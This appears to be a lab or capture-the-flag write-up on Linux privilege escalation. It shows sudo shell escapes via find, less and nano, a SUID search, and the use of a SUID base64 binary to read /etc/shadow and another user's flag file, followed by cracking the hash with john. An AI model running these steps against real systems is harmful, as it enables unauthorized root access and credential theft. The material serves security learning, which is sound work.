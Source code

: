 Although it looks simple, please remember that a failed kernel expoit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel expoit.


### Research sources

1. Based on your findings, you can use Google to search for an existing expoit code.
2. Sources such as [cvedetails](https://www.cvedetails.com/) can also be useful.
3. Another alternative would be to use a script like LES (Linux Expoit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## sudo -l and sudo privilege

Any user can check its current situation related to root privileges using the ```sudo -l``` command

We have sudo without password permission in find, less, and nano binaries so let's use all of them one by one to escalate our privilege.

1. Using find
    - We can use ```$sudo find . -exec /bin/bash \; -quit``` to get a root shell
2. Using less
    - first we need to run less with any file known to us with ```$sudo less filename``` then break out of the less to spawn a shell with ```!/bin/sh, !/bin/bash, !/bin/zsh``` and voila we will get the desired shell with root.
3. Using nano
   - We can use ```sudo nano``` to first run nano with superuser privilege then
   - We can use ```^R^X``` to get to the nano command mode
   - After that we can use the command ```reset; sh 1>&0 2>&0``` to spawn a root shell inside nano.

## Privilege escalation using SUID

**SUID:** Set-User Identification
**SGID:** Set-Group Identification
  
To find the files with SUID or SGID permissions we can use ```find / -type f -perm -04000 -ls 2>/dev/null``` 

It will give all the files and binaries that have SUID or SGID bits set.

A great resource is [Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

For task 1 we can just read the /etc/passwd file and find that the comic book writer user name is gerryconway. Then to break user2 password we need to read shadow file but we don't have permission to do so. Now we explore for any program that has suid or sgid bit set to it with the command ```$find / -type f -perm -04000 -ls 2>/dev/null``` from there we find that we have base64 with suid set to it. So, we can use base64 to read the shadow file as follows ```$base64 /etc/shadow | base64 -d``` and we will get the content of the shadow file. From the shadow file we take the password hash of user2 and save it to a file named u2pass.hash. Now we can use john to break the hash for us using ```$john u2pass.hash --wordlist=/usr/share/wordlists/rockyou.txt``` and voila we got the password for user2. In task3 we need to read the flag3.txt file, first we need to file the flag3.txt file in the system we can use ```$find / -name flag3.txt 2>/dev/null``` to find the file location then we used base64 to read the file as it is in other user's home directory and our current user doesn't have the permission to read it with the command ```$base64 /home/ubuntu/flag3.txt | base64 -d``` and we got our flag.
